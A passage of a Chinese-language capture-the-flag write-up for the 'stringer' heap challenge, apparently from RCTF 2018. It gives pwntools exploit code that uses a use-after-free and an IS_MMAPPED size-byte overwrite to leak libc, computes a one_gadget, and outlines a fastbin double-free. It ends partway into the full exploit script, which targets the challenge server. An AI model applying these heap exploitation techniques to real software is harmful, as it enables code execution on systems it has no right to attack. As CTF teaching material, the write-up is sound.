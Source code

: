 	new_string(0x80,'A')	#0
	new_string(0x80,'A')	#1
	new_string(0x68,'A')	#2
	new_string(0x68,'A')	#3
	new_string(0x20,'A')	#4

	delete_string(0)
	delete_string(1)

	payload = (p64(0) + p64(0x91)) * 9
	new_string(0x90,payload)	#5
	new_string(0x70,'A')	#6

	delete_string(1)

	edit_string(5,0x88)
	edit_string(5,0x88)
首先将两个大小为0x90的chunk0，chunk1释放，然后申请一个大小为0xa0的chunk5包含chunk1的头部，并对chunk1的头部进行覆写，然后再次申请一个大小为0x80的chunk6，保证当前unsortedbin链表为空。  

接着利用uaf漏洞，再次释放chunk1。使用edit_string功能编辑chunk5的0x88处的字节（即size字段的第一个字节，使其变成0x93）。这样再次申请一个0x90大小的chunk时，chunk1就会被返回且由于该chunk被标记为**IS\_MMAPPED**，并不会对其内容进行清空，从而泄露出libc地址。

	new_string(0x80,'AAAAAAA')	#7
	ru('string: AAAAAAA\x0a')
	top_addr = u64(rv(6).ljust(8,'\x00'))
	lg('top_addr',top_addr)
	libc.address = top_addr - 0x58 - 0x3C4B20
	lg('libc.address',libc.address)
	malloc_hook_ptr = libc.symbols['__malloc_hook']
	lg('malloc_hook_ptr',malloc_hook_ptr)
	one_gadget = libc.address + 0xf02a4
	lg('one_gadget',one_gadget)
### 2.2 fastbin attack ###
利用思路与babyheap的fastbin attack一样。释放同一个fastbin两次，并改写fd指针即可。
## 3.expolit代码 ##
    from pwn import *
    from ctypes import *
    import os
    #import roputils as rop
    
    remote_addr = "stringer.2018.teamrois.cn"
    remote_port = 7272
    
    # local_addr = "127.0.0.1"
    # local_port = 1807
    
    pc = "./stringer"
    pwn_elf = ELF(pc)
    pwn_rop = rop.ROP(pc)
    